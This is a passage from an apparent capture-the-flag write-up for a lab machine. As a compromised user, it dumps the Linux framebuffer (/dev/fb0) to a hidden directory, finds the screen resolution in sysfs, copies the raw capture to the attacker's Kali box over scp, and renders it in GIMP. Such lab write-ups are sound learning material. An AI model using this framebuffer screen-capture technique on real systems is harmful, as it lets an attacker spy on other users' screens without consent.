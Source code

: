     
    
    moshe@falafel:/dev/shm/.z$ cat /dev/fb0 > screenshot.raw
    moshe@falafel:/dev/shm/.z$ ls -l screenshot.raw
    -rw-rw-r-- 1 moshe moshe 4163040 May 18 03:52 screenshot.raw
    

To view this file, we’ll also need the screen resolution, which can be found
in `/sys/class/graphics/fb0/`:

    
    
    moshe@falafel:~$ ls -l /sys/class/graphics/fb0/
    total 0
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 bits_per_pixel
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 blank
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 bl_curve
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 console
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 cursor
    -r--r--r-- 1 root root 4096 Jun 20 16:23 dev
    lrwxrwxrwx 1 root root    0 Jun 20 16:23 device -> ../../../0000:00:0f.0
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 mode
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 modes
    -r--r--r-- 1 root root 4096 Jun 20 16:23 name
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 pan
    drwxr-xr-x 2 root root    0 Jun 20 16:23 power
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 rotate
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 state
    -r--r--r-- 1 root root 4096 Jun 20 16:23 stride
    lrwxrwxrwx 1 root root    0 Jun 20 16:23 subsystem -> ../../../../../class/graphics
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 uevent
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 virtual_size
    
    moshe@falafel:/dev/shm/.z$ cat /sys/class/graphics/fb0/virtual_size
    1176,885
    

Copy it back to kali:

    
    
    root@kali# cat moshe.password | xclip; scp moshe@10.10.10.73:/dev/shm/.z/screenshot.raw .
    moshe@10.10.10.73's password:
    screenshot.raw                                        100% 4065KB   1.6MB/s   00:02
    

And open with `Gimp`. In the open dialog, select the file, as well as the file
type of `Raw image data`:

![1526605043377](https://0xdfimages.gitlab.io/img/1526605043377.png)

In the next dialog, input the screen resolution, and try different `Image
Type` until it looks good (`RGB565` looks best):

![1526605110048](https://0xdfimages.gitlab.io/img/1526605110048.png)

Then export it as png:

![1526605221968](https://0xdfimages.gitlab.io/img/1526605221968.png)
